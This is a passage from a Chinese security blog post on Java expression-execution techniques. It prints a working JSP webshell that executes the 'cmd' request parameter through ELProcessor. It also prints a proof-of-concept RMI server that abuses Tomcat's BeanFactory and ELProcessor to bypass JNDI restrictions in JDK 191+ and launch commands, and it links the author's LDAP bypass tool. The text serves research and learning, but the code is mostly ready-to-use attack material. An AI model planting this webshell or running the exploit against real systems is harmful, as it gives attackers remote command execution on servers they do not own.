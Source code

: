 webshell.无回显的

```
&lt;%@ page import="javax.el.ELProcessor"%&gt;
&lt;%@ page contentType="text/html; charset=UTF-8" language="java" %&gt;
&lt;%
    String cmd =request.getParameter("cmd");
    String payload = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"js\").eval(\"var exp='"+cmd+"';java.lang.Runtime.getRuntime().exec(exp);\")";
    ELProcessor elProcessor = new ELProcessor();
    elProcessor.eval(payload);
%&gt;
```

介绍到这里，突然想到了jndi注入绕过jdk191+，其中的一种方法就是利用ELProcessor类

这里直接给出poc

```
Registry registry = LocateRegistry.createRegistry(rmi_port);
// 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
// 强制将 'x' 属性的setter 从 'setX' 变为 'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
ref.add(new StringRefAddr("forceString", "KINGX=eval"));
// 利用表达式执行命令
ref.add(new StringRefAddr("KINGX", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd.exe','/c','calc']).start()\")"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("Exploit", referenceWrapper);
```

还有一种方法是通过LDAP去绕过，自己写了一个[小工具](https://github.com/Firebasky/LdapBypassJndi)



## 总结

通过学习XMLDecoder的底层执行的流程去发现其他表达式执行，而其中的很多底层都是通过java反射技术实现的！

若文章中出现错误希望师傅们提出，感谢~

> 参考：
[https://www.freebuf.com/articles/network/247331.html](https://www.freebuf.com/articles/network/247331.html)
[https://www.anquanke.com/post/id/214435](https://www.anquanke.com/post/id/214435)
[https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)
